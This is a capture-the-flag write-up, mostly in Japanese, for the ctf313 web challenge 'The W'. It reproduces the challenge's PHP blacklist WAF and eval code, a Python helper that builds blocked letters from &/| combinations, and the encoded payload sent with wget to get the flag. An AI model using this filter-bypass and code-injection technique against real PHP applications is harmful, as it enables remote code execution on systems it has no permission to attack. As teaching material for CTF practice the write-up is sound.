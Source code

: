 # "The W":Web:15pts
Those Wutang Boys are at it again, hoot'n and holler'n and waking up the kids. I tried to put a stop to them but they are so damn clever. Just the other day I heard them yell "Wutang4Life" and they picked up and ran off with my flag... I tell ya, kids these days have it too easy...  
In Scope: http://web01.ctf313.com/  
Hack the web app only. You have the source code, no need to brute force or spam anything.  
Server and Infrastructure are out of scope and will result in an automatic ban and public shaming for being a 💩.  

# Solution
URLにアクセスするとphpソースが表示される。  
Web Challenge: "The W"  
[site.png](site/site.png)  
オレオレWAFを突破すれば良いようだ。  
WAFを詳しく見てやる。  
```php
function wutang_waf($str){

  for($i=0; $i<=strlen($str)-1; $i++) {

    if ((ord($str[$i])<32) or (ord($str[$i])>126)) {
      header("HTTP/1.1 416 Range Not Satisfiable");
      exit;
    }

  }

  $blklst = ['[A-VX-Za-z]',' ','\t','\r','\n','\'','""','`','\[','\]','\$','\\','\^','~'];
  foreach ($blklst as $blkitem) {
    if (preg_match('/' . $blkitem . '/m', $str)) {
      header("HTTP/1.1 403 Forbidden");
      exit;
    }
  }
}
```
`0123456789W!"#%&()*+,-./:;<=>?@_{|}`が通るようだ。  
`""`はブロックされるが、`"W"`のように文字を挟めばバイパスできる。  
ある程度の文字と`&`と`|`と`.`があるので、phpfuckの要領で任意の文字を構成できそうだ。  
以下を見ると、シェルをとるのではなく`Wutang4Life`をechoすれば良いようだ(バッファを見ている)。  
```php
if(!isset($_GET['yell'])) {
  show_source(__FILE__);
} else {
  $str = $_GET['yell'];
  wutang_waf($str);
  ob_start();
  $res = eval("echo " . $str . ";");
  $out = ob_get_contents();
  ob_end_clean();
  if ($out === "Wutang4Life") {
      echo $flag;
  } else {
    echo htmlspecialchars($out, ENT_QUOTES);
  }
}
```
`Wutang4Life`になる文字を組み立てればよい。  
以下のoreorephpf.pyを用いて必要な文字を抽出する。  
```python:oreorephpf.py
import sys

chars = '0123456789W!"#%&()*+,-./:;<=>?@_{|}'
new_chars = ""

if len(sys.argv) != 1:
    chars += sys.argv[1]


for i in chars:
    for j in chars:
        #And
        c = chr(ord(i) & ord(j))
        if (not c in chars) and (not c in new_chars) and (c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"):
            print("(\"{}\"%26\"{}\"):{}".format(i, j, c))
            new_chars += c
        #Or
        c = chr(ord(i) | ord(j))
        if (not c in chars) and (not c in new_chars) and (c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"):
            print("(\"{}\"%7C\"{}\"):{}".format(i, j, c))
            new_chars += c

print(new_chars)
```
実行する。  
```bash
$ python oreorephpf.py | grep :u
("5"%7C"@"):u
$ python oreorephpf.py | grep :t
("4"%7C"@"):t
$ python oreorephpf.py | grep :a
("!"%7C"@"):a
$ python oreorephpf.py | grep :n
("."%7C"@"):n
$ python oreorephpf.py | grep :g
$ python oreorephpf.py | grep :L
$ python oreorephpf.py | grep :i
(")"%7C"@"):i
$ python oreorephpf.py | grep :f
("&"%7C"@"):f
$ python oreorephpf.py | grep :e
("%"%7C"@"):e
$ python oreorephpf.py | grep -v :
wpqrstuvxySTUabcefhijklmnoz
$ python oreorephpf.py wpqrstuvxySTUabcefhijklmnoz | grep :g
("!"%7C"f"):g
$ python oreorephpf.py wpqrstuvxySTUabcefhijklmnoz | grep :L
("_"%26"l"):L
$ python oreorephpf.py wpqrstuvxySTUabcefhijklmnoz | grep :l
$ python oreorephpf.py | grep :l
(","%7C"@"):l
```
よってWAFを突破する文字列は以下のようになる。  
`&`を`%26`に置き換える必要がある。  
`("W").("5"%7C"@").("4"%7C"@").("!"%7C"@").("."%7C"@").("!"%7C("%26"%7C"@")).("4").("_"%26(","%7C"@")).(")"%7C"@").("%26"%7C"@").("%"%7C"@")`  
リクエストを投げる。  
```bash
$ wget -q -O - 'http://web01.ctf313.com/?yell=("W").("5"%7C"@").("4"%7C"@").("!"%7C"@").("."%7C"@").("!"%7C("%26"%7C"@")).("4").("_"%26(","%7C"@")).(")"%7C"@").("%26"%7C"@").("%"%7C"@")'
flag{Wu7an9-83-Wi23-wI7h-73H-8I72}
```
flagが得られた。  

## flag{Wu7an9-83-Wi23-wI7h-73H-8I72}
